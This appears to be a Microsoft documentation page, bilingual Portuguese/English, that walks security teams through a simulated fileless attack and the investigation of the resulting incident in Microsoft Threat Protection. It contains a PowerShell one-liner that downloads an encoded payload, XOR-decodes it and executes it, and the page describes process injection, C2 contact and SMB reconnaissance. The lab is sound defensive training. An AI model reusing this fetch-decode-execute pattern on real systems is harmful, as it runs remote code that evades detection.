





# <a name="run-your-microsoft-threat-protection-attack-simulations"></a><span data-ttu-id="8ca96-104">Executar as simulações de ataque de proteção contra ameaças da Microsoft</span><span class="sxs-lookup"><span data-stu-id="8ca96-104">Run your Microsoft Threat Protection attack simulations</span></span>  

<span data-ttu-id="8ca96-105">**Aplica-se a:**</span><span class="sxs-lookup"><span data-stu-id="8ca96-105">**Applies to:**</span></span>
- <span data-ttu-id="8ca96-106">Proteção contra Ameaças da Microsoft</span><span class="sxs-lookup"><span data-stu-id="8ca96-106">Microsoft Threat Protection</span></span>

<span data-ttu-id="8ca96-107">Após preparar seu ambiente piloto, é hora de testar o gerenciamento de incidentes da proteção contra ameaças da Microsoft e os recursos de investigação e correção automatizados.</span><span class="sxs-lookup"><span data-stu-id="8ca96-107">After preparing your pilot environment, it’s time to test the Microsoft Threat Protection incident management and automated investigation and remediation capabilities.</span></span> <span data-ttu-id="8ca96-108">Ajudaremos você a simular um ataque sofisticado que aproveita as técnicas avançadas para ocultar da detecção.</span><span class="sxs-lookup"><span data-stu-id="8ca96-108">We will help you to simulate a sophisticated attack that leverages advanced techniques to hide from detection.</span></span> <span data-ttu-id="8ca96-109">O ataque enumera as sessões de SMB (bloco de mensagens de servidor) abertas em controladores de domínio e recupera endereços IP recentes de dispositivos de usuários.</span><span class="sxs-lookup"><span data-stu-id="8ca96-109">The attack enumerates opened Server Message Block (SMB) sessions on domain controllers and retrieves recent IP addresses of users’ devices.</span></span> <span data-ttu-id="8ca96-110">Essa categoria de ataques geralmente não inclui arquivos descartados no dispositivo da vítima: eles ocorrem exclusivamente na memória.</span><span class="sxs-lookup"><span data-stu-id="8ca96-110">This category of attacks usually doesn’t include files dropped on the victim’s device—they occur solely in memory.</span></span> <span data-ttu-id="8ca96-111">Eles "vivem do terreno" usando ferramentas de sistema e administrativas existentes e injetam seu código em processos do sistema para ocultar sua execução, permitindo que eles causem a detecção e persistam no dispositivo.</span><span class="sxs-lookup"><span data-stu-id="8ca96-111">They “live off the land” by using existing system and administrative tools and inject their code into system processes to hide their execution, allowing them to evade detection and persist on the device.</span></span>

<span data-ttu-id="8ca96-112">Nesta simulação, nosso cenário de exemplo começa com um script do PowerShell.</span><span class="sxs-lookup"><span data-stu-id="8ca96-112">In this simulation, our sample scenario starts with a PowerShell script.</span></span> <span data-ttu-id="8ca96-113">Um usuário pode ser levado para executar um script.</span><span class="sxs-lookup"><span data-stu-id="8ca96-113">A user might be tricked into running a script.</span></span> <span data-ttu-id="8ca96-114">Ou o script pode ser executado a partir de uma conexão remota para outro computador a partir de um dispositivo previamente infectado, o invasor que está tentando se mover mais tarde na rede.</span><span class="sxs-lookup"><span data-stu-id="8ca96-114">Or the script might run from a remote connection to another computer from a previously infected device—the attacker attempting to move laterally in the network.</span></span> <span data-ttu-id="8ca96-115">A detecção desses scripts pode ser difícil porque os administradores também costumam executar scripts remotamente para realizar várias atividades administrativas.</span><span class="sxs-lookup"><span data-stu-id="8ca96-115">Detection of these scripts can be difficult because administrators also often run scripts remotely to carry out various administrative activities.</span></span>


<span data-ttu-id="8ca96-117">Durante a simulação, o ataque injeta shellcode em um processo aparentemente inocente.</span><span class="sxs-lookup"><span data-stu-id="8ca96-117">During the simulation, the attack injects shellcode into a seemingly innocent process.</span></span> <span data-ttu-id="8ca96-118">Neste cenário, usaremos notepad.exe.</span><span class="sxs-lookup"><span data-stu-id="8ca96-118">In this scenario, we’ll use notepad.exe.</span></span> <span data-ttu-id="8ca96-119">Escolhemos esse processo para a simulação, mas os invasores provavelmente serão direcionados a um processo de sistema de longa execução, como svchost.exe.</span><span class="sxs-lookup"><span data-stu-id="8ca96-119">We chose this process for the simulation, but attackers will more likely target a long-running system process, such as svchost.exe.</span></span> <span data-ttu-id="8ca96-120">O shellcode prossegue para entrar em contato com o servidor de comando e controle (C2) do invasor para receber instruções sobre como proceder.</span><span class="sxs-lookup"><span data-stu-id="8ca96-120">The shellcode then goes on to contact the attacker’s command-and-control (C2) server to receive instructions on how to proceed.</span></span> <span data-ttu-id="8ca96-121">Além disso, o script tenta executar consultas de reconhecimento no controlador de domínio (DC).</span><span class="sxs-lookup"><span data-stu-id="8ca96-121">In addition, the script attempts executing reconnaissance queries against the domain controller (DC).</span></span> <span data-ttu-id="8ca96-122">Isso permite que um invasor Obtenha informações sobre as informações recentes de login do usuário.</span><span class="sxs-lookup"><span data-stu-id="8ca96-122">This allows an attacker to get information about recent user login information.</span></span> <span data-ttu-id="8ca96-123">Após os invasores terem essa informação, eles podem ser movidos para a rede de forma mais tarde para obter uma conta confidencial específica</span><span class="sxs-lookup"><span data-stu-id="8ca96-123">Once attackers have this information, they can move laterally in the network to get to a specific sensitive account</span></span>

>[!IMPORTANT]
><span data-ttu-id="8ca96-124">Para obter resultados ideais, siga as instruções de simulação de ataque o mais próximo possível.</span><span class="sxs-lookup"><span data-stu-id="8ca96-124">For optimum results, follow the attack simulation instructions as closely as possible.</span></span>


## <a name="simulation-environment-requirements"></a><span data-ttu-id="8ca96-125">Requisitos do ambiente de simulação</span><span class="sxs-lookup"><span data-stu-id="8ca96-125">Simulation environment requirements</span></span>

<span data-ttu-id="8ca96-126">Como você já configurou o ambiente piloto durante a fase de preparação, verifique se você tem dois dispositivos para este cenário: um dispositivo de teste e um controlador de domínio.</span><span class="sxs-lookup"><span data-stu-id="8ca96-126">Since you have already configured your pilot environment during the preparation phase, ensure that you have two devices for this scenario: a test device and a domain controller.</span></span>

1.  <span data-ttu-id="8ca96-127">Verifique se o seu locatário tem [proteção](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).</span><span class="sxs-lookup"><span data-stu-id="8ca96-127">Verify your tenant has [Protection](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).</span></span>
2.  <span data-ttu-id="8ca96-128">Verifique a configuração do controlador de domínio de teste:</span><span class="sxs-lookup"><span data-stu-id="8ca96-128">Verify your test domain controller configuration:</span></span>
    - <span data-ttu-id="8ca96-129">O dispositivo é executado com o Windows Server 2008 R2 ou uma versão posterior.</span><span class="sxs-lookup"><span data-stu-id="8ca96-129">Device runs with Windows Server 2008 R2 or a later version.</span></span>
    - <span data-ttu-id="8ca96-130">O controlador de domínio de teste para a [proteção avançada contra ameaças do Azure](https://docs.microsoft.com/azure/security-center/security-center-wdatp) e habilitar o [gerenciamento remoto](https://docs.microsoft.com/windows-server/administration/server-manager/configure-remote-management-in-server-manager).</span><span class="sxs-lookup"><span data-stu-id="8ca96-130">The test domain controller to [Azure Advanced Threat Protection](https://docs.microsoft.com/azure/security-center/security-center-wdatp) and enable [remote management](https://docs.microsoft.com/windows-server/administration/server-manager/configure-remote-management-in-server-manager).</span></span>    
    - <span data-ttu-id="8ca96-131">Verifique se a [integração do Azure ATP e do Microsoft Cloud app Security](https://docs.microsoft.com/cloud-app-security/aatp-integration) foi habilitada.</span><span class="sxs-lookup"><span data-stu-id="8ca96-131">Verify that [Azure ATP and Microsoft Cloud App Security integration](https://docs.microsoft.com/cloud-app-security/aatp-integration) have been enabled.</span></span>
    - <span data-ttu-id="8ca96-132">Um usuário de teste é criado em seu domínio – nenhuma permissão de administrador é necessária.</span><span class="sxs-lookup"><span data-stu-id="8ca96-132">A test user is created on your domain – no admin permissions needed.</span></span>

3.  <span data-ttu-id="8ca96-133">Verifique a configuração do dispositivo de teste:</span><span class="sxs-lookup"><span data-stu-id="8ca96-133">Verify test device configuration:</span></span>
    <br>
    <span data-ttu-id="8ca96-134">a.</span><span class="sxs-lookup"><span data-stu-id="8ca96-134">a.</span></span>  <span data-ttu-id="8ca96-135">O dispositivo é executado com o Windows 10 versão 1903 ou uma versão posterior.</span><span class="sxs-lookup"><span data-stu-id="8ca96-135">Device runs with Windows 10 version 1903 or a later version.</span></span>
    <br>
    <span data-ttu-id="8ca96-136">b.</span><span class="sxs-lookup"><span data-stu-id="8ca96-136">b.</span></span>  <span data-ttu-id="8ca96-137">O dispositivo de teste faz parte do domínio de teste.</span><span class="sxs-lookup"><span data-stu-id="8ca96-137">Test device is joined to the test domain.</span></span>
    <br>
    <span data-ttu-id="8ca96-138">c.</span><span class="sxs-lookup"><span data-stu-id="8ca96-138">c.</span></span>  <span data-ttu-id="8ca96-139">[Ative o Windows Defender Antivirus](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span><span class="sxs-lookup"><span data-stu-id="8ca96-139">[Turn on Windows Defender Antivirus](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="8ca96-140">Se você estiver tendo problemas para habilitar o Windows Defender Antivirus, consulte este [tópico de solução de problemas](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span><span class="sxs-lookup"><span data-stu-id="8ca96-140">If you are having trouble enabling Windows Defender Antivirus, see this [troubleshooting topic](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>
    <br>
    <span data-ttu-id="8ca96-141">d.</span><span class="sxs-lookup"><span data-stu-id="8ca96-141">d.</span></span>  <span data-ttu-id="8ca96-142">Verifique se o dispositivo de teste está [integrado ao Microsoft defender Advanced Threat Protection (MDATP)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span><span class="sxs-lookup"><span data-stu-id="8ca96-142">Verify that the test device is [onboarded to Microsoft Defender Advanced Threat Protection (MDATP)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="8ca96-143">Se você usar um locatário existente e implementar grupos de dispositivos, crie um grupo de dispositivos dedicado para o dispositivo de teste e empurre-o para o nível superior na configuração UX.</span><span class="sxs-lookup"><span data-stu-id="8ca96-143">If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.</span></span>


## <a name="run-the-simulation"></a><span data-ttu-id="8ca96-144">Executar a simulação</span><span class="sxs-lookup"><span data-stu-id="8ca96-144">Run the simulation</span></span>

<span data-ttu-id="8ca96-145">Para executar a simulação do cenário de ataque:</span><span class="sxs-lookup"><span data-stu-id="8ca96-145">To run the attack scenario simulation:</span></span>

1.  <span data-ttu-id="8ca96-146">Faça logon no dispositivo de teste com a conta de usuário de teste.</span><span class="sxs-lookup"><span data-stu-id="8ca96-146">Log in to the test device with the test user account.</span></span>

2.  <span data-ttu-id="8ca96-147">Abra uma janela do Windows PowerShell no dispositivo de teste.</span><span class="sxs-lookup"><span data-stu-id="8ca96-147">Open a Windows PowerShell window on the test device.</span></span>

3.  <span data-ttu-id="8ca96-148">Copie o seguinte script de simulação:</span><span class="sxs-lookup"><span data-stu-id="8ca96-148">Copy the following simulation script:</span></span>
```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
= [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
-UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
$decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
$i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```
>[!NOTE]
><span data-ttu-id="8ca96-149">Se você abrir este documento em um navegador da Web, poderá ter problemas ao copiar o texto completo sem perder determinados caracteres ou introduzir quebras de linha extras.</span><span class="sxs-lookup"><span data-stu-id="8ca96-149">If you open this document on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="8ca96-150">Baixe este documento e abra-o no Adobe Reader.</span><span class="sxs-lookup"><span data-stu-id="8ca96-150">Download this document and open it on Adobe Reader.</span></span>

4. <span data-ttu-id="8ca96-151">No prompt, Cole e execute o script copiado.</span><span class="sxs-lookup"><span data-stu-id="8ca96-151">At the prompt, paste and run the copied script.</span></span>

>[!NOTE]
><span data-ttu-id="8ca96-152">Se você estiver executando o PowerShell usando o protocolo RDP, use o comando digitar texto da área de transferência no cliente RDP porque a tecla de atalho **Ctrl-V** ou o método clique com o botão direito do mouse-colar pode não funcionar.</span><span class="sxs-lookup"><span data-stu-id="8ca96-152">If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work.</span></span>  <span data-ttu-id="8ca96-153">As versões recentes do PowerShell às vezes também não aceitarão esse método, você pode precisar copiar para o bloco de notas na memória primeiro, copiá-lo na máquina virtual e colá-lo no PowerShell.</span><span class="sxs-lookup"><span data-stu-id="8ca96-153">Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.</span></span>

<span data-ttu-id="8ca96-154">Alguns segundos mais tarde, o <i>notepad.exe</i> será aberto.</span><span class="sxs-lookup"><span data-stu-id="8ca96-154">A few seconds later, <i>notepad.exe</i> will open.</span></span> <span data-ttu-id="8ca96-155">Um código de ataque simulado será injetado em notepad.exe.</span><span class="sxs-lookup"><span data-stu-id="8ca96-155">A simulated attack code will be injected into notepad.exe.</span></span> <span data-ttu-id="8ca96-156">Mantenha a instância gerada automaticamente do bloco de notas aberta para experimentar o cenário completo.</span><span class="sxs-lookup"><span data-stu-id="8ca96-156">Keep the automatically generated Notepad instance open to experience the full scenario.</span></span>

<span data-ttu-id="8ca96-157">O código de ataque simulado tentará se comunicar com um endereço IP externo (simulando o servidor C2) e tentará o reconhecimento em relação ao controlador de domínio por meio de SMB.</span><span class="sxs-lookup"><span data-stu-id="8ca96-157">The simulated attack code will attempt to communicate to an external IP address (simulating the C2 server) and then attempt reconnaissance against the domain controller through SMB.</span></span>

<span data-ttu-id="8ca96-158">Você verá uma mensagem exibida no console do PowerShell quando esse script for concluído.</span><span class="sxs-lookup"><span data-stu-id="8ca96-158">You will see a message displayed on the PowerShell console when this script completes.</span></span>

```
ran NetSessionEnum against [DC Name] with return code result 0      
```

<span data-ttu-id="8ca96-159">Para ver o recurso automatizado de incidentes e respostas em ação, mantenha o processo de notepad.exe aberto.</span><span class="sxs-lookup"><span data-stu-id="8ca96-159">To see the Automated Incident and Response feature in action, keep the notepad.exe process open.</span></span> <span data-ttu-id="8ca96-160">Você verá incidentes e respostas automáticos para interromper o processo do bloco de notas.</span><span class="sxs-lookup"><span data-stu-id="8ca96-160">You will see Automated Incident and Response stop the Notepad process.</span></span>


## <a name="investigate-an-incident"></a><span data-ttu-id="8ca96-161">Investigar um incidente</span><span class="sxs-lookup"><span data-stu-id="8ca96-161">Investigate an incident</span></span>

>[!NOTE]
><span data-ttu-id="8ca96-162">Antes de orientá-lo nesta simulação, Assista ao vídeo a seguir para ver como o gerenciamento de incidentes ajuda você a juntar os alertas relacionados, como parte do processo de investigação, onde você pode encontrá-los no portal e como ele pode ajudá-lo em suas operações de segurança:</span><span class="sxs-lookup"><span data-stu-id="8ca96-162">Before we walk you through this simulation, watch the following video to see how incident management helps you piece the related alerts together as part of the investigation process, where you can find it in the portal, and how it can help you in your security operations:</span></span>

>[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

<span data-ttu-id="8ca96-163">Mudando para o ponto de vista do analista do SOC, agora você pode começar a investigar o ataque no portal da central de segurança do Microsoft 365.</span><span class="sxs-lookup"><span data-stu-id="8ca96-163">Switching to the SOC analyst point of view, you can now start to investigate the attack in the Microsoft 365 Security Center portal.</span></span> 

1.  <span data-ttu-id="8ca96-164">Abra a fila de incidentes do [portal da central de segurança do Microsoft 365](https://security.microsoft.com/incidents) de qualquer dispositivo.</span><span class="sxs-lookup"><span data-stu-id="8ca96-164">Open the [Microsoft 365 Security Center portal](https://security.microsoft.com/incidents) incident queue from any device.</span></span>

2.  <span data-ttu-id="8ca96-165">Navegue até **incidentes** no menu.</span><span class="sxs-lookup"><span data-stu-id="8ca96-165">Navigate to **Incidents** from the menu.</span></span> 

    

3.  <span data-ttu-id="8ca96-167">O novo incidente para o ataque simulado será exibido na fila de incidentes.</span><span class="sxs-lookup"><span data-stu-id="8ca96-167">The new incident for the simulated attack will appear in the incident queue.</span></span>
 
    


### <a name="investigate-the-attack-as-a-single-incident"></a><span data-ttu-id="8ca96-169">Investigue o ataque como um único incidente</span><span class="sxs-lookup"><span data-stu-id="8ca96-169">Investigate the attack as a single incident</span></span>

<span data-ttu-id="8ca96-170">A proteção contra ameaças da Microsoft correlaciona a análise e agrega todos os alertas e investigações relacionados de produtos diferentes em uma entidade de incidente.</span><span class="sxs-lookup"><span data-stu-id="8ca96-170">Microsoft Threat Protection correlates analytics and aggregates all related alerts and investigations from different products into one incident entity.</span></span> <span data-ttu-id="8ca96-171">Fazendo isso, a proteção contra ameaças da Microsoft mostra uma história de ataque mais ampla, permitindo que o analista do SOC entenda e responda a ameaças complexas.</span><span class="sxs-lookup"><span data-stu-id="8ca96-171">By doing so, Microsoft Threat Protection shows a broader attack story, allowing the SOC analyst to understand and respond to complex threats.</span></span>

<span data-ttu-id="8ca96-172">Os alertas gerados durante essa simulação estão associados à mesma ameaça e, como resultado, são automaticamente agregados como um único incidente.</span><span class="sxs-lookup"><span data-stu-id="8ca96-172">The alerts generated during this simulation are associated with the same threat, and as a result, are automatically aggregated as a single incident.</span></span>

<span data-ttu-id="8ca96-173">Para exibir o incidente:</span><span class="sxs-lookup"><span data-stu-id="8ca96-173">To view the incident:</span></span>

1.  <span data-ttu-id="8ca96-174">Navegue até a fila de **incidentes** .</span><span class="sxs-lookup"><span data-stu-id="8ca96-174">Navigate to the **Incidents** queue.</span></span>
 
    

2.  <span data-ttu-id="8ca96-176">Selecione o item mais recente clicando no círculo localizado à esquerda do nome do incidente.</span><span class="sxs-lookup"><span data-stu-id="8ca96-176">Select the newest item by clicking on the circle located left of the incident name.</span></span> <span data-ttu-id="8ca96-177">Um painel lateral exibe informações adicionais sobre o incidente, incluindo todos os alertas relacionados.</span><span class="sxs-lookup"><span data-stu-id="8ca96-177">A side panel displays additional information about the incident, including all the related alerts.</span></span> <span data-ttu-id="8ca96-178">Cada incidente tem um nome exclusivo que o descreve com base nos atributos dos alertas que inclui.</span><span class="sxs-lookup"><span data-stu-id="8ca96-178">Each incident has a unique name that describes it based on the attributes of the alerts it includes.</span></span>

    

    <span data-ttu-id="8ca96-180">Os alertas mostrados no painel podem ser filtrados com base nos recursos de serviço: Azure ATP, segurança do aplicativo Cloud da Microsoft, Microsoft defender ATP, proteção contra ameaças da Microsoft e Office ATP.</span><span class="sxs-lookup"><span data-stu-id="8ca96-180">The alerts that shows in the dashboard can be filtered based on service resources: Azure ATP, Microsoft Cloud App Security, Microsoft Defender ATP, Microsoft Threat Protection, and Office ATP.</span></span>  

3.  <span data-ttu-id="8ca96-181">Selecione **abrir página de incidente** para obter mais informações sobre o incidente.</span><span class="sxs-lookup"><span data-stu-id="8ca96-181">Select **Open incident page** to get more information about the incident.</span></span>

    <span data-ttu-id="8ca96-182">Na página **incidente** , você pode ver todos os alertas e informações relacionadas ao incidente.</span><span class="sxs-lookup"><span data-stu-id="8ca96-182">In the **Incident** page, you can see all the alerts and information related to the incident.</span></span> <span data-ttu-id="8ca96-183">Isso inclui as entidades e os ativos envolvidos no alerta, a fonte de detecção dos alertas (Azure ATP, EDR) e o motivo pelo qual foram vinculados.</span><span class="sxs-lookup"><span data-stu-id="8ca96-183">This includes the entities and assets that are involved in the alert, the detection source of the alerts (Azure ATP, EDR), and the reason they were linked together.</span></span> <span data-ttu-id="8ca96-184">A revisão da lista de alertas de incidentes mostra a progressão do ataque.</span><span class="sxs-lookup"><span data-stu-id="8ca96-184">Reviewing the incident alert list shows the progression of the attack.</span></span> <span data-ttu-id="8ca96-185">Nesse modo de exibição, você pode ver e investigar os alertas individuais.</span><span class="sxs-lookup"><span data-stu-id="8ca96-185">From this view, you can see and investigate the individual alerts.</span></span>

    <span data-ttu-id="8ca96-186">Você também pode clicar em **gerenciar incidente** no menu direito, marcar o incidente, atribuí-lo a si mesmo e adicionar comentários.</span><span class="sxs-lookup"><span data-stu-id="8ca96-186">You can also click **Manage incident** from the right-hand menu, to tag the incident, assign it to yourself, and add comments.</span></span>

    

    


### <a name="review-generated-alerts"></a><span data-ttu-id="8ca96-189">Examinar alertas gerados</span><span class="sxs-lookup"><span data-stu-id="8ca96-189">Review generated alerts</span></span> 

<span data-ttu-id="8ca96-190">Vamos examinar alguns dos alertas gerados durante o ataque simulado.</span><span class="sxs-lookup"><span data-stu-id="8ca96-190">Let’s look at some of the alerts generated during the simulated attack.</span></span>

>[!NOTE]
><span data-ttu-id="8ca96-191">Vamos examinar apenas alguns alertas gerados durante o ataque simulado.</span><span class="sxs-lookup"><span data-stu-id="8ca96-191">We’ll walk through only a few of the alerts generated during the simulated attack.</span></span> <span data-ttu-id="8ca96-192">Dependendo da versão do Windows e dos produtos de proteção contra ameaças da Microsoft executados em seu dispositivo de teste, você poderá ver mais alertas que aparecem em uma ordem um pouco diferente.</span><span class="sxs-lookup"><span data-stu-id="8ca96-192">Depending on the version of Windows and the Microsoft Threat Protection products running on your test device, you might see more alerts that appear in a slightly different order.</span></span>

 


<span data-ttu-id="8ca96-194">**Alerta: injeção de processo suspeito observada (origem: Microsoft defender ATP EDR)**</span><span class="sxs-lookup"><span data-stu-id="8ca96-194">**Alert: Suspicious process injection observed (Source: Microsoft Defender ATP EDR)**</span></span>

<span data-ttu-id="8ca96-195">Os invasores avançados usam métodos sofisticados e furtivos para persistir na memória e ocultar as ferramentas de detecção.</span><span class="sxs-lookup"><span data-stu-id="8ca96-195">Advanced attackers use sophisticated and stealthy methods to persist in memory and hide from detection tools.</span></span> <span data-ttu-id="8ca96-196">Uma técnica comum é operar de dentro de um processo de sistema confiável, em vez de um executável mal-intencionado, dificultando as ferramentas de detecção e as operações de segurança para identificar o código mal-intencionado.</span><span class="sxs-lookup"><span data-stu-id="8ca96-196">One common technique is to operate from within a trusted system process rather than a malicious executable, making it hard for detection tools and security operations to spot the malicious code.</span></span>

<span data-ttu-id="8ca96-197">Para permitir que os analistas do SOC confiram esses ataques avançados, os sensores de memória profundas no Microsoft defender ATP fornecem visibilidade sem precedentes em uma variedade de técnicas de injeção de código de processo cruzado.</span><span class="sxs-lookup"><span data-stu-id="8ca96-197">To allow the SOC analysts to catch these advanced attacks, deep memory sensors in Microsoft Defender ATP provide our cloud service with unprecedented visibility into a variety of cross-process code injection techniques.</span></span> <span data-ttu-id="8ca96-198">A figura a seguir mostra como o Microsoft defender ATP foi detectado e alertado na tentativa de injetar código para <i>notepad.exe</i>.</span><span class="sxs-lookup"><span data-stu-id="8ca96-198">The following figure shows how Microsoft Defender ATP detected and alerted on the attempt to inject code to <i>notepad.exe</i>.</span></span>

 


<span data-ttu-id="8ca96-200">**Alerta: comportamento inesperado observado por um processo executado sem argumentos de linha de comando (origem: Microsoft defender ATP EDR)**</span><span class="sxs-lookup"><span data-stu-id="8ca96-200">**Alert: Unexpected behavior observed by a process run with no command line arguments (Source: Microsoft Defender ATP EDR)**</span></span>

<span data-ttu-id="8ca96-201">As detecções do Microsoft defender ATP freqüentemente direcionam o atributo mais comum de uma técnica de ataque.</span><span class="sxs-lookup"><span data-stu-id="8ca96-201">Microsoft Defender ATP detections often target the most common attribute of an attack technique.</span></span> <span data-ttu-id="8ca96-202">Isso garante durabilidade e eleva a barra para que os invasores alternem para táticas mais recentes.</span><span class="sxs-lookup"><span data-stu-id="8ca96-202">This ensures durability and raises the bar for attackers to switch to newer tactics.</span></span>

<span data-ttu-id="8ca96-203">Empregamos algoritmos de aprendizado em larga escala para estabelecer o comportamento normal de processos comuns dentro de uma organização e em todo o mundo e observar quando esses processos apresentam comportamentos anormais.</span><span class="sxs-lookup"><span data-stu-id="8ca96-203">We employ large-scale learning algorithms to establish the normal behavior of common processes within an organization and worldwide and watch for when these processes exhibit anomalous behaviors.</span></span> <span data-ttu-id="8ca96-204">Esses comportamentos anormais geralmente indicam que código estranho foi introduzido e está em um processo de confiança de outra forma.</span><span class="sxs-lookup"><span data-stu-id="8ca96-204">These anomalous behaviors often indicate that extraneous code was introduced and is running in an otherwise trusted process.</span></span>

<span data-ttu-id="8ca96-205">Para esse cenário, o <i>notepad.exe</i> de processo está exibindo um comportamento anormal, envolvendo a comunicação com um local externo.</span><span class="sxs-lookup"><span data-stu-id="8ca96-205">For this scenario, the process <i>notepad.exe</i> is exhibiting abnormal behavior, involving communication with an external location.</span></span> <span data-ttu-id="8ca96-206">Esse resultado é independente do método específico usado para introduzir e executar o código mal-intencionado.</span><span class="sxs-lookup"><span data-stu-id="8ca96-206">This outcome is independent of the specific method used to introduce and execute the malicious code.</span></span>

>[!NOTE]
><span data-ttu-id="8ca96-207">Como esse alerta se baseia nos modelos de aprendizado de máquina que exigem processamento de backend adicional, pode levar algum tempo antes de ver esse alerta no Portal.</span><span class="sxs-lookup"><span data-stu-id="8ca96-207">Because this alert is based on machine-learning models that require additional backend processing, it might take some time before you see this alert in the portal.</span></span>

<span data-ttu-id="8ca96-208">Observe que os detalhes do alerta incluem o endereço IP externo, um indicador que você pode usar como uma tabela dinâmica para expandir a investigação.</span><span class="sxs-lookup"><span data-stu-id="8ca96-208">Notice that the alert details include the external IP address—an indicator that you can use as a pivot to expand investigation.</span></span>

<span data-ttu-id="8ca96-209">Clique no endereço IP na árvore processo de alerta para exibir a página detalhes do endereço IP.</span><span class="sxs-lookup"><span data-stu-id="8ca96-209">Click the IP address in the alert process tree to view the IP address details page.</span></span>

 

<span data-ttu-id="8ca96-211">A figura a seguir exibe a página de detalhes do endereço IP selecionado (clicando em endereço IP na árvore de processo de alerta).</span><span class="sxs-lookup"><span data-stu-id="8ca96-211">The following figure displays the selected IP Address details page (clicking on IP address in the Alert process tree).</span></span>
<span data-ttu-id="8ca96-212"></span><span class="sxs-lookup"><span data-stu-id="8ca96-212"></span></span>


<span data-ttu-id="8ca96-213">**Alerta: reconhecimento de endereço IP e de usuário (SMB) (origem: ATP do Azure)**</span><span class="sxs-lookup"><span data-stu-id="8ca96-213">**Alert: User and IP address reconnaissance (SMB) (Source: Azure ATP)**</span></span>

<span data-ttu-id="8ca96-214">A enumeração usando protocolo SMB permite que os invasores obtenham informações recentes de logon do usuário que os ajuda a se moverem mais tarde através da rede para acessar uma conta específica.</span><span class="sxs-lookup"><span data-stu-id="8ca96-214">Enumeration using Server Message Block (SMB) protocol enables attackers to get recent user logon information that helps them move laterally through the network to access a specific sensitive account.</span></span>

<span data-ttu-id="8ca96-215">Nessa detecção, um alerta é disparado quando a enumeração de sessão SMB é executada em um controlador de domínio.</span><span class="sxs-lookup"><span data-stu-id="8ca96-215">In this detection, an alert is triggered when the SMB session enumeration runs against a domain controller.</span></span>

 


### <a name="review-the-device-timeline-microsoft-defender-atp"></a><span data-ttu-id="8ca96-217">Examinar a linha do tempo do dispositivo [Microsoft defender ATP]</span><span class="sxs-lookup"><span data-stu-id="8ca96-217">Review the device timeline [Microsoft Defender ATP]</span></span>
<span data-ttu-id="8ca96-218">Após explorar os vários alertas neste incidente, navegue de volta para a página de incidente que você investigou anteriormente.</span><span class="sxs-lookup"><span data-stu-id="8ca96-218">After exploring the various alerts in this incident, navigate back to the incident page you investigated earlier.</span></span> <span data-ttu-id="8ca96-219">Clique na guia **dispositivos** da página incidente para examinar os dispositivos envolvidos neste incidente como relatado pelo Microsoft defender ATP e Azure ATP.</span><span class="sxs-lookup"><span data-stu-id="8ca96-219">Click the **Devices** tab in the incident page to review the devices involved in this incident as reported by Microsoft Defender ATP and Azure ATP.</span></span>

<span data-ttu-id="8ca96-220">Clique no nome do dispositivo em que o ataque foi conduzido, para abrir a página de entidade desse dispositivo específico.</span><span class="sxs-lookup"><span data-stu-id="8ca96-220">Click the name of the device where the attack was conducted, to open the entity page for that specific device.</span></span> <span data-ttu-id="8ca96-221">Nessa página, você pode ver alertas que foram disparados e eventos relacionados.</span><span class="sxs-lookup"><span data-stu-id="8ca96-221">In that page, you can see alerts that were triggered and related events.</span></span>

<span data-ttu-id="8ca96-222">Clique na guia **linha do tempo** para abrir a linha do tempo do dispositivo e exibir todos os eventos e comportamentos observados no dispositivo em ordem cronológica, intercalado com os alertas gerados.</span><span class="sxs-lookup"><span data-stu-id="8ca96-222">Click the **Timeline** tab to open the device timeline and view all events and behaviors observed on the device in chronological order, interspersed with the alerts raised.</span></span>

 

<span data-ttu-id="8ca96-224">A expansão de alguns dos comportamentos mais interessantes fornece detalhes úteis, como árvores de processo.</span><span class="sxs-lookup"><span data-stu-id="8ca96-224">Expanding some of the more interesting behaviors provides useful details, such as process trees.</span></span>

<span data-ttu-id="8ca96-225">Por exemplo, role para baixo até encontrar o evento de alerta **injeções de processo suspeito observado**.</span><span class="sxs-lookup"><span data-stu-id="8ca96-225">For example, scroll down until you find the alert event **Suspicious process injection observed**.</span></span> <span data-ttu-id="8ca96-226">Clique no **powershell.exe injetado para notepad.exe** evento de processo abaixo dele, para exibir a árvore de processos completo para esse comportamento no gráfico de **entidades de evento** no painel lateral.</span><span class="sxs-lookup"><span data-stu-id="8ca96-226">Click the **powershell.exe injected to notepad.exe process** event below it, to display the full process tree for this behavior under the **Event entities** graph on the side pane.</span></span> <span data-ttu-id="8ca96-227">Use a barra de pesquisa para filtragem, se necessário.</span><span class="sxs-lookup"><span data-stu-id="8ca96-227">Use the search bar for filtering if necessary.</span></span>


